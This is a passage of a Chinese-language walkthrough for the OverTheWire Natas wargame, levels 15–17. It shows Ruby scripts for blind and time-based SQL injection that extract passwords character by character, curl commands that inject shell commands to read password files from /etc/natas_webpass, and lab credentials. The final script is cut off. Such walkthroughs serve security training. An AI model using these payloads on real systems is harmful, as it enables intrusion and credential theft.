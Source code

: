 ```ruby
require 'net/http'
Net::HTTP.start('natas15.natas.labs.overthewire.org') {|http|
  1.upto(1992) {|pos|
    l = 32
    h = 126
    while l < h
      m = (l + h) / 2
      req = Net::HTTP::Post.new('/')
      req.basic_auth 'natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'
      req.body = %{username=natas16" and #{m} < ascii(mid(password,#{pos},1)) #}
      res = http.request(req)
      if res.body =~ /user exists/
        l = m + 1
      else
        h = m
      end
    end
    break if l == 32
    print l.chr
  }
}
```

### Level 16

Level 11的升級版，現在過濾``;|&`'"``這幾種字符了。

```bash
curl -o/dev/null -su natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh -F 'needle=$(cat /etc/natas_webpass/natas17 > /tmp/natas17)' http://natas16.natas.labs.overthewire.org
```

Level 9允許執行shell命令：

```bash
curl -su natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl -F 'needle=;cat /tmp/natas17 #' -F submit=1 http://natas9.natas.labs.overthewire.org
```

### Level 17

代碼和Level 15類似，但這次服務端不再提供注入的SQL返回的結果是否非空的信息了。
可以採用time-based SQL injection的方法：

```bash
curl -su natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw -F 'username=natas18" and if(ascii(mid(password,1,1)) < 128,sleep(1),1) #' http://natas17.natas.labs.overthewire.org
```

用`if`語句讓服務器MySQL對`ascii(mid(password,1,1)) < 128`求值，
若爲真則`sleep`一秒，通過檢測收到服務端返回結果的用時來得知表達式是否爲真。
改變128得到二分搜索密碼每個字符的代碼。因爲time-based注入方式執行時間較長，
考慮用多線程提速：

```ruby
require 'net/http'
timeout = 2
ans = '*' * 32
worker = ->from, to {
  Net::HTTP.start('natas17.natas.labs.overthewire.org') {|http|
    http.read_timeout = timeout
    (from...to).each {|pos|
      l = 32
      h = 126
      while l < h
        m = (l + h) / 2
        req = Net::HTTP::Post.new('/')
```